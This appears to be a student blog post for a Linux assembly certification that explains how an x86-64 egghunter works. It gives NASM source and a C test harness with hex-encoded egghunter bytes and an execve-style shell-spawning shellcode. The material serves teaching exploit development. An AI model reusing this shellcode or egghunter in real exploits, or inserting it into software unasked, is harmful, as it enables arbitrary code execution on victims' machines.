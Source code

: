 # Egghunter

This assignment was about creating an Egghunter shellcode.

An Egghunter shellcode is used in situations in which you are not sure where exactly your shellcode was placed. However you managed to redirect the IP to a smaller shellcode which contains the egghunter shellcode. The idea is that the egghunter scans the memory for the occurence of a specific value ( the egg ) and jumps to the shellcode that is placed behind the egg.

## Shellcode

In my implementation the egg is exactly 4 bytes long.

```
_start:
    add rsp, 22 ; Dont scan the egghunter shellcode as it contains the egg as well
_huntloop:
    inc rsp ; Increment the rsp so that we search for the egg byte-wise
    cmp dword [rsp], the_egg ; Does Rsp point to the egg?
    jne _huntloop ; If it does not point to the egg do an other iteration

    ; We found the egg \0/
    add rsp, 4 ; Jump over the 4 byte egg
    jmp rsp ; Jump to the shellcode
```

## Testing the egghunter

In order to test my shellcode I created the following C program:
```
    /// AAAA IS THE EGG
    char shellcode[] = "AAAA\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05";
    char trash[] = "ASFHA(USFHAIFJA)FH(*HAFIONIJ)*Y(&UNMIOPJHOHOIN:IUASD";
    char egghunter[] = "\x48\x83\xc4\x16\x48\xff\xc4\x81\x3c\x24\x41\x41\x41\x41\x75\xf4\x48\x83\xc4\x04\xff\xe4";

    (*(void(*)()) egghunter)();
```

As you can see I placed some trash values between the egghunter and the actuall shellcode to make it more realistic. When the eggunter shellcode is executed the stack looks like this:

```
+-----------------------+
|                       |
|       EGGHUNTER       | <-- RSP
|                       |
+-----------------------+
|                       |
|        TRASH          |
|                       |
+-----------------------+
|                       |
|         EGG           |
|                       |
+-----------------------+
|                       |
|      SHELLCODE        |
|                       |
|                       |
+-----------------------+
```

By incrementing the RSP we let it point closer and closer to the egg until it points to it.
Then I add the egg size ( 4 bytes ) to the rsp so that the rsp points to the shellcode.

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification.

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert

Student ID: SLAE64-1581
